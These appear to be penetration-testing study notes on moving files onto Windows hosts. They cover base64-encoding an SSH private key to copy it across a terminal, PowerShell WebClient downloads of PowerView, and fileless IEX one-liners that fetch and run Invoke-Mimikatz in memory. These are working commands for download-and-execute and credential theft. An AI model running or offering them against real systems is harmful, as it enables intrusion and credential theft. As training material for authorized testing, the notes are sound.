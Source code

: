 # **Download Operations**
---
# PowerShell Base64 Encode & Decode - No Network
----
- We can ==**encode a file to a base64 string, copy its contents from the terminal and perform the reverse operation,**== decoding the file in the original content.
- An essential step in using this method is to **ensure the file you encode and decode is correc**t. We can use [md5sum](https://man7.org/linux/man-pages/man1/md5sum.1.html), a program that calculates and verifies 128-bit MD5 checksums.
- **Note:** Windows Command Line utility (cmd.exe) has a **maximum string length of 8,191 characters**. Also, a web shell may error if you attempt to send extremely large strings.

- Encode: 
	- `cat id_rsa |base64 -w 0;echo`
- Copy this content and paste it into a Windows PowerShell terminal and use some PowerShell functions to decode it:
	- `[IO.File]::WriteAllBytes("C:\Path\To\Save\File", [Convert]::FromBase64String("<CopiedBase64String>"))`
- Confirm MD5 hash:
	- `Get-FileHash C:\Path\Of\Saved\File -Algorithm md5`

# PowerShell Web Downloads
---
![[Pasted image 20250622064045.png]]
## PowerShell DownloadFile Method
---
- `(New-Object Net.WebClient).DownloadFile('<Target File URL>','<Output File Name>')`
	- `(New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1','C:\Users\Public\Downloads\PowerView.ps1')`
- `(New-Object Net.WebClient).DownloadFileAsync('<Target File URL>','<Output File Name>')` => ASync

## PowerShell DownloadString - Fileless Method
---
- Fileless attacks work by using some operating system functions to **download the payload and execute it directly**. 
- Instead of downloading a PowerShell script to disk, ==**we can run it directly in memory using the [Invoke-Expression](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/invoke-expression?view=powershell-7.2) cmdlet or the alias `IEX`.**==

- `IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')`

- `IEX` also accepts pipeline input:
	- `(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1') | IEX`
